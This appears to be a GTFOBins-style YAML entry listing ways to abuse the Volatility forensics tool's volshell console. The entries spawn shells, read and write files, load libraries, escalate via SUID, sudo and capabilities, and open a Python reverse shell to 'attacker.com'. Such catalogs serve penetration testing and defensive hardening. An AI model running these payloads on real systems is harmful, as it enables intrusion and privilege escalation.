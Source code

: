 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  shell:
    - code: | ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
    \_\_import\_\_("os").system("/bin/sh")
  reverse-shell:
    - description: Run ``netcat -lp 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
        import os,subprocess
        shell = "import sys,socket,os,pty;s=socket.socket();s.connect((%s,int(%s)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\\\"/bin/sh\\\")"%(repr(os.getenv("RHOST")),repr(os.getenv("RPORT")))
        subprocess.call(["/bin/sh","-c","python3 -c \"%s\""%shell])
  file-write:
    - code: |
    ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
   open("file_to_write","w+").write("DATA")
  file-read:
    - code: |
    ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
    print(open("file_to_read").read())
  library-load:
    - code: |
    ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
    from ctypes import cdll; cdll.LoadLibrary("lib.so")
  suid:
    - code: |
    ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
    import os;os.execl("/bin/sh", "sh", "-p")
  sudo:
    - code: |
    ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
    import os;os.system("/bin/sh")
  capabilities:
    - code: |
    ./volatility_2.6_lin64_standalone -f cridex.vmem --profile=WinXPSP2x86 volshell
    import os;os.setuid(0);os.system("/bin/sh")
---
```

